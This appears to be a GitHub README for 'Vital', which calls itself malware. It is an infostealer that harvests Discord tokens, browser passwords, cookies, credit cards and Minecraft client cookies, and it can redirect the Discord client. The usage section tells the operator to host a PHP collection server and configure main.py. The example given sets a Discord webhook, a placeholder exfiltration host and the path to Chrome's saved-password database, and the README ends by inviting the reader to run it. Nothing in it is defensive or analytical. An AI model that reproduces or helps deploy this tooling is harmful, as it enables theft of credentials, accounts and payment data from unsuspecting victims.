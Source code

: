 # Vital
- What is Vital?
  > Vital is malware primarily used to collect and
  > extract information from the Discord desktop client.
  > While it has other features (MC stealer, browser tools)
  > it really shines in this area.

- Overview of Vital
  > Vital has the ability to steal browser passwords, cookies, and credit cards.
  > It also collects Discord tokens, Minecraft client cookies and can redirect
  > the Discord client to an alternative web address.

- Support / coverage
  > Vital supports a plethora of Discord clients and browsers,
  > from commonly used browsers such as Chrome and Firefox to
  > lesser used browsers such as (i don't know)

# Usage
Setup a webserver on either a local machine or a remote machine, hosting the
PHP file. Once you have your local server setup, make sure to configure everything
**__properly__** inside of `main.py`. 

- Example
```python
WEBHOOK 	    = 	'https://discord.com/webhooks/idontfuckingknow'
REDIRECT 	    = 	''
HOST	 	    = 	'http://mydomain.org/'
CHROME_DATA 	    =   '\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data'
USERNAME	    =   os.environ.get('USERNAME')
APPDATA		    =   os.getenv('APPDATA')

DEBUG 		    = 	False
```

After this you can execute `main.py` and watch the magic happen!
